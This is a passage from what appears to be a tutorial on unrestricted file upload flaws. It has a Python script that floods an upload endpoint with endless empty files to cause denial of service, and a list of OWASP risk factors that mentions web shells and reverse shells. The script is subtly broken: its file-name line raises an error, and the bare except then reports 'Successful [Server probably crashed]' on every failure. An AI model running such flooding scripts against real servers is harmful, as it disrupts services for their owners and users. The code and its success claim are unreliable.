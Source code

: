 By accessing this path, an attacker could potentially execute the malicious script, gaining control over the server's content.


**<span style="font-size:1.1em;">Second problem</span>**

Another issue the system may accounter, is the size of the file, this can initial a **DOS** attack with uploading unlimited amount of files or unlimited size file. Let's say for example that the server doesn't limit how much files you upload but limit the size of content. You can make a small script to upload infinite number of files

Example script that generate random files with no content.

```python
import string
import random
import requests

url = "http://example/content/images/uploaded_image.php"
content = b""
type_ = "image"

while True:
    try : 
        response =  requests.post(url,timeout = 10,json = {
            "type":type_,
            "content":content,
            "file name":"".join([random.choices(list(string.ascii_letters),k=10)]) + ".png"
        })
    except :
        print("Successful [Server probably crashed]")
```

## Risk Factors
This list is uploaded from <sup>[2](https://github.com/OWASP/www-community/blob/master/pages/vulnerabilities/Unrestricted_File_Upload.md)</sup>

  - The impact of this vulnerability is high, supposed code can be
    executed in the server context or on the client side. The likelihood
    of detection for the attacker is high. The prevalence is common. As
    a result the severity of this type of vulnerability is high.
  - It is important to check a file upload module's access controls to
    examine the risks properly.
  - Server-side attacks: The web server can be compromised by uploading
    and executing a web-shell which can run commands, browse system
    files, browse local resources, attack other servers, or exploit the
    local vulnerabilities, and so forth.
  - Client-side attacks: Uploading malicious files can make the website
    vulnerable to client-side attacks such as
    [XSS](Cross-site_Scripting_\(XSS\) "wikilink") or Cross-site Content
    Hijacking.
  - Uploaded files can be abused to exploit other vulnerable sections of
    an application when a file on the same or a trusted server is needed
    (can again lead to client-side or server-side attacks)
  - Uploaded files might trigger vulnerabilities in broken
    libraries/applications on the client side (e.g. iPhone MobileSafari
    LibTIFF Buffer Overflow).
  - Uploaded files might trigger vulnerabilities in broken
    libraries/applications on the server side (e.g. ImageMagick flaw
    that called ImageTragick\!).
  - Uploaded files might trigger vulnerabilities in broken real-time
    monitoring tools (e.g. Symantec antivirus exploit by unpacking a RAR
    file)
  - A malicious file such as a Unix shell script, a windows virus, an
    Excel file with a dangerous formula, or a reverse shell can be
    uploaded on the server in order to execute code by an administrator